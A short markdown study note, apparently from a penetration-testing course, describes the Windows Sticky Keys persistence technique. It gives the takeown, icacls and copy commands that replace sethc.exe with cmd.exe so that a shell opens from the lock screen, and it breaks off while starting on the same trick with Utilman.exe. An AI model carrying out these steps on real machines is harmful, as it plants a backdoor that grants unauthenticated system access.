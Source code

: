 #windows #cybersecurity 

### Sticky Keys

`CTRL + ALT + DEL`
We can configure windows to use sticky keys, wich allows us to press the buttons of a combination sequentially instead of at the same time.

To enable we have to press `SHIFT` 5 times
![[Pasted image 20240722094717.png]]

The program triggered is `C:\Windows\System32\sethc.exe`
To overwrite it, we have to take ownership of that binary

```cmd
C:\> takeown /f c:\Windows\System32\sethc.exe 

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator". 
C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F processed file: 

C:\Windows\System32\sethc.exe Successfully processed 1 files; Failed processing 0 files C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes 1 file(s) copied.
```

After that we an lock the screen and press 5 times shift to trigger the sticky key script

### Utilman
![[Pasted image 20240722095237.png]]

`C:\Windows\System32\Utilman.exe`

We do a similar thing 